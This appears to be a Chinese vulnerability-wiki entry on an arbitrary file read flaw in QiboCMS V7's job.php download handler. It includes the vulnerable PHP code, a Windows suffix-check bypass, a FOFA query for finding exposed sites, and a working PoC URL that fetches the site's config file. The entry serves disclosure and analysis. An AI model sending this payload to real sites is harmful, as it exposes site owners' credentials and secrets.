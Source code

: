 # 齐博CMS V7 job.php 任意文件读取漏洞

## 漏洞描述

QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。

## 漏洞影响

```
齐博CMS V7
```

## FOFA

```
app="齐博软件-v7"
```

## 漏洞复现

漏洞分析 `/inc/job/download.php`

```
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。

```
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

## 漏洞POC

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

![image-20220518160941881](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181609962.png)